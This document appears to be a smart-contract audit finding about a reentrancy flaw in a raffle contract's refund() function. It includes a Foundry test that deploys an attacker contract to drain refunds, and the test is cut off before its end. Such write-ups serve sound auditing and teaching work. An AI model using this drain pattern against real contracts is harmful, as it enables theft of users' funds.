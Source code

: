 #

### [S-H1] Event in the refund() function should be emitted before the state changes and the state change should be done before refund transaction, to avoid a Re-entrancy attack.

**Description:**<br />

The state change of the `playerIndex` in the `refund()` function should be done before the transaction that sends a value to the user for refunds.

The `RaffleRefunded` event should be emitted before the state changes. It is a best practice to emit the event before the state changes.

It avoid any confusion about the state of the contract, and avoid to let the door open to any reentrancy attack.

**Impact:**<br />

- Can lead to a reentrancy attack, if the state changes before the event is emitted and / or before the transaction to refund a user. Because until the state changed is not terminated, the state is not considered as being changed until then and keep the door open to any other call to the function since it is not considered as terminated yet.

- Leading to sucking refund funds from the contract. And making the refund function unusable for other users has no funds will be left.

**Proof of Concept:**<br />

Run `slither .` in the root folder of the project, there will be the below output details:

<details><summary> Click to see Slither output</summary></details>

- Test case to show the reentrancy attack using an attacker contract:

```javascript

    function testCanGetRefundReentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        console.log(
            "The balance of the raffle contract before attack is: %s",
            address(puppyRaffle).balance
        );

        // introduce attacker
        AttackReentrant attackerContract = new AttackReentrant(puppyRaffle);
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 10 ether);

        uint256 attackerContractBalanceBefore = address(attackerContract)
            .balance;

        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        console.log(
            "Attacker contract balance before the attack: %s",
            attackerContractBalanceBefore
        );
        console.log(
            "Attacker contract balance after the attack: %s",
            address(attackerContract).balance
        );
```